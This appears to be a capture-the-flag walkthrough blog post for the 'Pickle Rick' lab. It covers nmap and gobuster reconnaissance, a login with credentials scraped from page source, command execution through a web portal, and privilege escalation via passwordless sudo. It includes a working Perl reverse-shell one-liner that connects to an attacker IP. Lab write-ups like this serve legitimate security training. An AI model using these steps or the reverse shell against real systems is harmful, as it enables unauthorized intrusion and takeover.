 ```yaml
---
layout: post
permalink: /posts/thm/pickle-rick
title: "Pickle Rick"
---
```


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle. <br />

To beging with scan the target machine with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/pickle-rick/nmap.png)

There are open ports 22 and 80. Visit the website.

![website](/assets/images/thm/pickle-rick/website.png)

Let's first view the source code.

![source-code](/assets/images/thm/pickle-rick/source-code.png)

We have found a username there `R1ckRul3s` <br />
The other thing that we can try is to scan the website for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://10.10.254.244/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,txt,html
```

![gobuster](/assets/images/thm/pickle-rick/gobuster.png)

We have found some directories let's first look at robots.txt

![robots](/assets/images/thm/pickle-rick/robots.png)

Hmm... there is a strange string. Let's try something, go to the login page and try to login with the username which we had found and this wierd string as password

![login](/assets/images/thm/pickle-rick/login.png)

![portal](/assets/images/thm/pickle-rick/portal.png)

Good, we are in. The portal page show us that we can execute commands there.

![ls](/assets/images/thm/pickle-rick/ls.png)

Woohoo, we have found an ingredient. But wait cat command is disabled.

![disabled](/assets/images/thm/pickle-rick/disabled.png)

What other commands we can use to read files try with this one:

```
less Sup3rS3cretPickl3Ingred.txt
```

Good, now we have our first ingredient. There is another file `clue.txt`

![clue](/assets/images/thm/pickle-rick/clue.png)

That is a good clue. Let's look around the system

```
ls home
```

![ls-home](/assets/images/thm/pickle-rick/ls-home.png)

This rick directory looks suspicious

```
ls /home/rick
```

![ls-rick](/assets/images/thm/pickle-rick/ls-rick.png)

Here we go, we have found the second ingredient. Just read it

```
less /home/rick/'second ingredients'
```

Now we need to find the last third ingredient. I tried to execute a revesre shell `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` first try with the bash script wasn't successful but the perl one works

```
perl -e 'use Socket;$i="10.10.198.228";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![shell](/assets/images/thm/pickle-rick/shell.png)

We have a shell acces now we have to escalate our privileges. One of the first thing that you can check is whether our user has any sudo permissions

```
sudo -l
```

![sudo-l](/assets/images/thm/pickle-rick/sudo-l.png)

Wow we have the right to execute any commands with as root without password

![3rd](/assets/images/thm/pickle-rick/3rd.png
